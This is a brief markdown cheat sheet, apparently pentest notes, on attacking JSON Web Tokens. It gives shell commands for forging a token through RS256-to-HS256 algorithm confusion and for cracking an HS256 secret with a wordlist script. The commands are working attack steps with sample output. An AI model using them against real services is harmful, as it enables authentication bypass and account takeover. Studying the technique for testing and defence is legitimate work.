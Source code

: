 # JSON Web Token cheatsheet

## Pass the JWT with curl

```shell
curl -H "Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzb21lIjoicGF5bG9hZCJ9.4twFt5NiznN84AWoo1d7KO1T_yoc0Z6XOpOVswacPZg" https://hostname/api
```

## Change the algorithm from RS256 to HS256

We assume the file public.pem contains the public key, then perform the following commands to sign data :

1. Convert the public key (public.pem) into HEX with this command
```shell
$ cat key.pem | xxd -p | tr -d "\\n"
2d2d2d2d2d424547494e...
```
2. Generate HMAC signature by supplying our public key as ASCII hex and with our token previously edited
```shell
$ echo -n "eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyIjoiZ3Vlc3QifQ" | openssl dgst -sha256 -mac HMAC -macopt hexkey:2d2d2d2d2d424547494e...
(stdin)= d2db96ad118c88c5d109b6be78af7b02973635c1a0fe527184314a27fdce65f5
```
3. Convert signature (Hex to "base64 URL")
```shell
$ python2 -c "exec(\"import base64, binascii\nprint base64.urlsafe_b64encode(binascii.a2b_hex('d2db96ad118c88c5d109b6be78af7b02973635c1a0fe527184314a27fdce65f5')).replace('=','')\")"
0tuWrRGMiMXRCba-eK97Apc2NcGg_lJxhDFKJ_3OZfU
```
4. Add signature to edited payload
```shell
JWT = eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyIjoiZ3Vlc3QifQ.0tuWrRGMiMXRCba-eK97Apc2NcGg_lJxhDFKJ_3OZfU
```

## Crack JWT key

https://github.com/Skadiia/Scripts/blob/master/JWTCracker/JWTCracker.py

Installation with pip :
```shell
# Require PyJWT
$ python JWTCracker.py -t "eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzb21lIjoicGF5bG9hZCJ9.4twFt5NiznN84AWoo1d7KO1T_yoc0Z6XOpOVswacPZg" -d "/usr/share/wordlists/rockyou.txt"
[+] Secret found : secret
```
